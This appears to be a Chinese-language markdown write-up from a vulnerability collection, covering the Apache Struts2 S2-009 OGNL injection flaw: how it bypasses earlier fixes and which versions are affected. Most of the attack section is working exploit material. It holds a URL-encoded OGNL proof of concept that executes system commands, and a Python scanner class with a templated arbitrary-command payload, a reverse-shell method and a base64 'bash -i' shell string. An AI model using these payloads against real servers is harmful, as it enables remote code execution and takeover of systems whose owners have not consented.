

# Struts2-009

## 漏洞介绍

该漏洞是在Struts2对s2-003的修复方法是禁止静态方法调用，在s2-005中可直接通过OGNL绕过该限制，对于`#`号，同样使用编码`\u0023`或`\43`进行绕过。于是Struts2对s2-005的修复方法是禁止`\`等特殊符号，使用户不能提交反斜线。

但是，如果当前action中接受了某个参数`example`，这个参数将进入OGNL的上下文。所以，我们可以将OGNL表达式放在`example`参数中，然后使用`/helloword.acton?example=aaa&bbbb=(example)('xxx')`的方法来执行它，从而绕过官方对`#`、`\`等特殊字符的防御。

**所以该漏洞是在s2-003，s2-005基础上在一次绕过的。**

## 漏洞版本

影响版本: 2.1.0 - 2.3.1.1

漏洞详情: http://struts.apache.org/docs/s2-009.html

## poc

```
age=12313&name=(%23context[%22xwork.MethodAccessor.denyMethodExecution%22]=+new+java.lang.Boolean(false),
+%23_memberAccess[%22allowStaticMethodAccess%22]=true,
+%23a=@java.lang.Runtime@getRuntime().exec(%27env%27).getInputStream(),
%23b=new+java.io.InputStreamReader(%23a),
%23c=new+java.io.BufferedReader(%23b),
%23d=new+char[51020],
%23c.read(%23d),
%23kxlzx=@org.apache.struts2.ServletActionContext@getResponse().getWriter(),
%23kxlzx.println(%23d),
%23kxlzx.close())(meh)&z[(name)(%27meh%27)]
```



## 扫描器

进行了简单的修改

```python
class S2_009:
    """S2-009漏洞检测利用类"""
    info = "[+] S2-009:影响版本Struts 2.0.0-2.3.1.1; GET请求发送数据,URL后面需要请求参数名; 默认为: key; 支持任意命令执行和反弹shell"
    exec_payload = "(%23context[%22xwork.MethodAccessor.denyMethodExecution%22]=+new+java.lang.Boolean(false),+%23_memberAccess[%22allowStaticMethodAccess%22]=true,+%23a=@java.lang.Runtime@getRuntime().exec(%27{cmd}%27).getInputStream(),%23b=new+java.io.InputStreamReader(%23a),%23c=new+java.io.BufferedReader(%23b),%23d=new+char[51020],%23c.read(%23d),%23kxlzx=@org.apache.struts2.ServletActionContext@getResponse().getWriter(),%23kxlzx.println(%23d),%23kxlzx.close())(meh)&z[({key})(%27meh%27)]"

    shell = "bash -c {echo,SHELL}|{base64,-d}|{bash,-i}"

    def __init__(self, url, data=None, headers=None, encoding="UTF-8"):
        self.url = url
        if not data:
            self.data = "name"
        else:
            self.data = data.split('=')[0].strip()
        self.headers = parse_headers(headers)
        self.encoding = encoding
        self.is_vul = False

    def check(self):
        """检测漏洞是否存在"""
        html = echo_check(self)
        if str(html).startswith("ERROR:"):
            return html
        if html:
            self.is_vul = True
            return 'S2-009'
        return self.is_vul

    def exec_cmd(self, cmd):
        """执行命令"""
        payload = self.exec_payload.format(cmd=quote(cmd), key=self.data)
        html = get(self.url + "/?age=12313&{key}={payload}".format(key=self.data, payload=payload), self.headers, self.encoding)
        return html

    def reverse_shell(self, ip, port):
        """反弹shell"""
        html = reverse_shell(self, ip, port)
        return html
```

## 参考

>https://github.com/vulhub/vulhub/blob/master/struts2/s2-009/README.zh-cn.md
